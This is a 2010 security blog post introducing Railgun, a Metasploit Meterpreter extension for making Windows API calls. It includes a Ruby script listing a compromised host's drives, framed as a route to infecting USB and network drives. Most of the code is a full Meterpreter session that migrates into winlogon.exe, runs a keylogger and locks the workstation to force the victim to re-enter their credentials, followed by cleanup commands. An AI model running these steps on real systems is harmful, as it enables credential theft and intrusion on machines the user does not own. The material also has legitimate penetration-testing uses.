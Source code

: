 ---
author: mubix
comments: true
date: 2010-07-08 02:10:34+00:00
layout: post
title: 'Intro to RailGun: WIN API for Meterpreter'
categories:
- metasploit
- meterpreter
- railgun
---

Back on June 13th, "Patrick HVE" released RAILGUN:

[http://mail.metasploit.com/pipermail/framework/2010-June/006382.html](http://mail.metasploit.com/pipermail/framework/2010-June/006382.html)

And it was merged into the the Metasploit trunk with 9709, 9710, 9711 and 9712:
[http://www.metasploit.com/redmine/projects/framework/repository/revisions/9712](http://www.metasploit.com/redmine/projects/framework/repository/revisions/9712)

Basically what this allows you to do is make Windows API calls from Meterpreter without compiling your own DLL. It currently supports a number of Windows API dlls:

  * iphlpapi
  * ws2_32
  * kernel32
  * ntdll
  * user32
  * advapi32

(You can find out exactly what functions are available by default in the api.rb file)

It's also very extensible, it doesn't have a DLL or function you need? But you can read all about in the manual:

`./external/source/meterpreter/source/extensions/railgun/railgun_manual.pdf`

Here are two examples where this comes in very handy:

## List Drives:

The problem that I've had on a number of pentests is that you get shell, but from CMD or Meterpreter there is no good way to find all of the volumes (drives) attached.

  * net use - Shows you what Network drives are connected, but not physical ones
  * fsutil fsinfo drives - You must be an administrator to ride this train
  * fdisk /status - Only on OLD versions of DOS, not sure when this disappeared

But railgun solves this problem with a really short script:

```ruby
# Load the Railgun plugin  **_Update: You no longer need this step_**  
# client.core.use("railgun")   
# Make the API call to enum drive letters   
a = client.railgun.kernel32.GetLogicalDrives()["return"]         
# Math magic to convert the binary to letters        
drives = []         
letters = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"         
(0..25).each do |i|        
	test = letters[i,1]        
	rem = a % (2**(i+1))        
	if rem > 0        
		drives << test        
		a = a - rem        
	end        
end         
print_line("Drives Available = #{drives.inspect}")
```

**Output**: `Drives Available = ["A", "C", "D", "P", "X"]`

Save this as a meterpreter script and it'll print every logical drive attached to the system even as a limited user (that the user can see).

Logical drives include: (hdd, network, mass storage, optical, etc). This opens up the doors to infecting USB sticks and network drives…

## JEDI KEYLOGGING:

One of the problems with keylogging is you never know when that person will log in, and if you're using a client side, they have probably already logged in and you're hoping they log into a portal or some other password protected site.

Railgun to the rescue again:

```ruby
# Start the keylogger running in the background dumping keys every 15 seconds, attached to Winlogon**   

meterpreter > bgrun keylogrecorder -c 1 -t 15        
[*] Executed Meterpreter with Job ID 0        
meterpreter > [*] winlogon.exe Process found, migrating into 640        
[*] Migration Successful!!        
[*] Starting the keystroke sniffer...        
[*] Keystrokes being saved in to /root/.msf3/logs/scripts/keylogrecorder/192.168.92.122_20100707.4539.txt        
[*] Recording         
  
# Drop to IRB to initialize railgun and lockout the workstation, forcing the user to use their credentials again.**

meterpreter > irb       
[*] Starting IRB shell        
[*] The 'client' variable holds the meterpreter client

client.core.use("railgun")       
=> true        
client.railgun.user32.LockWorkStation()        
=> {"GetLastError"=>0, "return"=>true}        
exit        
meterpreter >
```

Set up "tail -f" going on the log file for the keylogger and then kill the keylogger when you've gotten what you came for.

```
meterpreter > bglist       
[*] Job 0: ["keylogrecorder", "-c", "1", "-t", "15"]        
meterpreter > bgkill 0        
[*] Killing background job 0...        
meterpreter >
```

Hope you have fun with railgun and shoot me an email [mubix@hak5.org](mailto:mubix@hak5.org) or leave a comment if you have any other crazy uses for railgun.
